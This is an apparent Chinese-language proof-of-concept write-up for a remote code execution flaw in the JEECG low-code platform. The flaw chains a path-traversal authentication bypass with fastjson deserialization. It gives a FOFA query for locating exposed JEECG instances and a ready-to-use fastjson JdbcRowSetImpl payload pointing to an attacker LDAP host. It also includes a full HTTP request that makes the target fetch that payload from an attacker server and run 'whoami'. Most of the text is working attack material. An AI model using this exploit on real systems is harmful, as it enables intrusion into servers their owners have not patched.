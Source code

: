 ## Jeecg-jeecgFormDemoController存在JNDI代码执行漏洞

Jeecg (J2EE C ode G eneration)是一款基于代码生成器的低代码开发平台, 使用 JEECG 可以简单快速地开发出企业级的 Web 应用系统。目前官方已停 止维护。 JEECG 4.0 及之前版本中，由于 /api 接口鉴权时未过滤路径遍历，攻击 者可构造包含 ../ 的 url 绕过鉴权。

因为依赖 1.2.31 版本的 fastjson， 该版本存在反序列化漏洞。攻击者可对 /api/../jeecgFormDemoController.do?interfaceTest 接口进行 jndi 注入攻 击实现远程代码执行



## fofa

```
app="JEECG"
```
/user/login?redirect=%2F
![image](https://github.com/user-attachments/assets/6b1822e6-d5a4-49c9-8a8d-16d95f700dcf)

## poc

创建如下远程文件，其内容为fastjson代码执行的payload

```
        {
            "a":{
                "@type":"java.lang.Class",
                "val":"com.sun.rowset.JdbcRowSetImpl"
            },
            "b":{
                "@type":"com.sun.rowset.JdbcRowSetImpl",
                "dataSourceName":"ldap://10.66.64.89:1389/8orsiq",
                "autoCommit":true
            }
        }
```

```
POST /api/../jeecgFormDemoController.do?interfaceTest= HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
cmd: whoami
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

serverUrl=http://xxxxxxxx:8877/jeecg.txt&requestBody=1&requestMethod=GET
```

![image-20240526195416290](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405261954336.png)

![image-20240526195357757](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405261953813.png)
